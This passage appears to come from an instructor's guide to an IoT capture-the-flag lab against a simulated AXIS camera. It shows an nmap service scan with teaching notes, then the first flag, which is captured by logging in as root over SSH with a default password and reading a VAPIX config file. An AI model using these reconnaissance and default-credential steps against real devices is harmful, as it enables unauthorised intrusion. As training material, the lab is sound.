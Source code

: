 **Output:**
```
Starting Nmap 7.94 scan at 2025-01-27 10:00:00 EST
Nmap scan report for 192.168.1.132
Host is up (0.00042s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:bb:cc:dd:ee:ff:11:22:33:44:55:66:77:88:99:00 (RSA)
80/tcp   open  http     BusyBox httpd 1.31.0
|_http-title: AXIS Camera Interface
554/tcp  open  rtsp     AXIS Media Control
1883/tcp open  mqtt     Mosquitto version 1.6.12
1900/tcp open  upnp     Linux UPnP 1.0
3702/udp open  ws-discovery
8080/tcp open  http-proxy

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 45.32 seconds
```

**Teaching Points:**
- Always save scan results with `-oA` for documentation
- Use `-sC` for default NSE scripts
- Full port scan (`-p-`) may reveal non-standard ports

**Common Student Mistakes:**
- Forgetting to scan UDP ports (add `-sU` for UDP scan)
- Not saving scan output for later reference
- Using SYN scan without privileges (`sudo` required)

---

## EASY FLAGS (5 flags)

### Flag #1: Default VAPIX Configuration
**Location**: `/etc/axis/vapix.conf`  
**Flag**: `FLAG{GANDALF47889468}`  
**OWASP Category**: IoT-01 (Weak, Guessable, or Hardcoded Passwords)

```bash
# First, try default SSH credentials
ssh root@192.168.1.132
# When prompted for password, try: pass
```

**Output:**
```
The authenticity of host '192.168.1.132' can't be established.
RSA key fingerprint is SHA256:1234567890abcdef...
Are you sure you want to continue connecting (yes/no)? yes
root@192.168.1.132's password: pass

BusyBox v1.31.0 (2023-01-01 00:00:00 UTC) built-in shell (ash)

   _____  _______  _____  _____
  |  __ \|__   __||_   _|/ ____|
  | |__) |  | |     | | | (___
  |  _  /   | |     | |  \___ \
  | | \ \   | |    _| |_ ____) |
  |_|  \_\  |_|   |_____|_____/  Camera System

root@axis:~# find /etc -name "*vapix*" 2>/dev/null
/etc/axis/vapix.conf
root@axis:~# cat /etc/axis/vapix.conf
```